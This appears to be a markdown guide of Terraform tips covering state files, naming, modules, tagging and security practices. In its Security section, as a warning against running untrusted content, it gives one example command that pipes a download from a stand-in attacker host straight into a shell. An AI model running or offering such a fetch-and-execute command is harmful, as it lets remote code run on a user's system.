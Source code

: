 Terraform Tips and Best Practices
=================================

- Delete resources when you're done.

- Don't modify the Terraform state file.  It will only lead to pain.

- Treat the cloud's portal website as read-only.  It's too easy for Terraform's state file and the cloud to get out-of-sync.

- When developing solutions a good path to develop the solution is:

  1. Do Click-Ops by clicking in a sandbox account to understand the cloud resources
  2. Run `terraform apply` locally until it all works
  3. Start with only cloud provider resources
  4. Add Platform Engineering team's modules where it makes sense
  5. `terraform destroy` to empty the test cloud account
  6. Switch to cloud-hosted state file into blob storage like S3
  7. Create an automation DevOps pipeline to run Terraform

  We're separating concerns and validating each piece in isolation.

- Use the [Terraform Docs](https://registry.terraform.io/providers/hashicorp/aws/latest/docs).  The docs are your best friend.  Note that input variables are named "Arguments", and output variables are named "Attributes".

- Naming: It's best to name all resources using only use lower-case letters, numbers, and underscores.  Avoid ~~spaces~~, ~~upper-case letters~~, ~~special characters~~, and ~~emoji~~ as some services don't like unusual names.  Even if the service you're using does support these characters, other services referencing this name may not.  Some resources have naming limits, so avoid things that are too name in nested variables.

- Google It: Don’t hesitate to search the Terraform documentation if you’re stuck.

- GitHub Copilot and ChatGPT: These are both great for generating Terraform code.  If you know you need it but don't know how to build it, ask ChatGPT for an example.  It may not work, and it may have outdated versions, but it may get you past the blank page.

- Terraform Destroy is engineered for *all or nothing*.  You can't delete only some of your resources.  If you need to delete a few things, comment out the Terraform HCL.

- If Terraform apply is stuck, comment out the resource in the *.tf file(s), commit, uncomment the resource(s), commit.  FRAGILE: If you do this with data stores like dbs you'll lose data.

- State File restore from backup: Turn on S3 bucket versioning to recover previous state files when needed.

- Frequently update provider and module versions to the latest.  If you're using an online tutorial or example, the versions may be old.

- Frequently update the Terraform CLI both locally and on the build agent.  Newer providers or modules may not work with older CLI versions.

- Provider Version: Terraform will try to find the latest provider that works with all modules.  If terraform can't find a version that works for all the modules, it will error and do nothing.

- Separate Terraform projects: It can be helpful to separate slowly evolving or time consuming resources into separate Terraform folders.  For example, move the DB to a separate Terraform folder and DevOps build to avoid accidentally mutating -- or worse deleting -- the database.  Or move the ALB to a central Terraform folder and DevOps build to use a shared load balancer across projects or teams.

- `depends_on`:  Terraform is really good at discovering dependencies and both applying and deleting things in the correct order.  But sometimes it gets it wrong.  If it does, add gratuitous `depends_on` to help it infer the correct sequence.

- No, you can't import existing cloud infrastructure into Terraform.  Yes, technically you can, but the names will be weird, the ids will be fragile, the Terraform HCL code will be ugly, and this assumes Terraform's import found everything.  Better to write the Terraform and migrate onto new cloud infrastructure.

- Terraform modules: Be careful to include only quality, trusted, and supported modules in your Terraform code.  It could be easy to depend on an unsupported module that never receives security updates, making your system vulnerable.

- Ensure a unique state file per environment.  Never run terraform apply with a local state into the same AWS account that has S3-backed state files.  At best you'll get duplicated resources.  Probably you'll get a corrupt Terraform state file.

- Move common configuration to a config store like Azure App Configuration or Hashicorp Vault.  Then the app or Terraform module can pull the config from the store.  This practice makes the tfvars file smaller, and eliminates prop-drilling in Terraform files and modules.

- Modules: it's easy to reach for modules too early.  Use the standard resources first until you're comfortable.

- Tags are your friend.  Be as verbose as possible when tagging resources.  It makes it easy to find your resources, bill-back resources to other departments, and discover related resources in a project.

- Use development best practices with Terraform code too.  Pull requests, merge approvers, etc.  Terraform code is still code.


Security
--------

- ⚠️ Avoid Storing secrets, passwords, or secure details in your GitHub repo.

- 💡 Use AWS Secrets Manager or Parameter Store for sensitive information.

- 🎯 Use Azure DevOps secrets for build-time sensitive details.

- 😦 Be Cautious: Terraform’s state file may expose secrets.  Anyone with access to the S3 bucket can read all your secrets stored in Terraform state.

- Don't download random Terraform content from the internet and run it without first understanding what it does.  `curl http://hacker.evil./ | sh` is bad.


Modules
-------

- Opinions:  It's easy to make a module so opinionated it's unusable without first forking it.  It's also easy to make a module so customizable that there's so many optional parameters it becomes nearly impossible to use.  Find the careful balance using [SOLID](https://en.wikipedia.org/wiki/SOLID) principles.

- Policies in Modules:  It's easy to bake a policy into a module, but this is a very sharp edge, a foot-gun if you will.  Let's imagine a scenario where one defines a policy inside a module and another policy to add to it outside the module.  There is an awful race condition:

  1. Write your Terraform, debug it, and make it perfect.
  2. The next deploy succeeds and the outer policy is in place.
  3. Sometime later ... next week, next month, next year ...
  4. The build runs with updated `tags`.
  5. The module reapplies with the updated tags and the internal policy.
  6. The outer policy is not reapplied, so the module accidentally deleted your policy.
  7. Suddenly users start getting errors and your logs fill up with permission errors.

  The moral of the story:  Don't build policies in modules.  Or make it very obvious that you're doing so, and have a parameter to easily disable it.
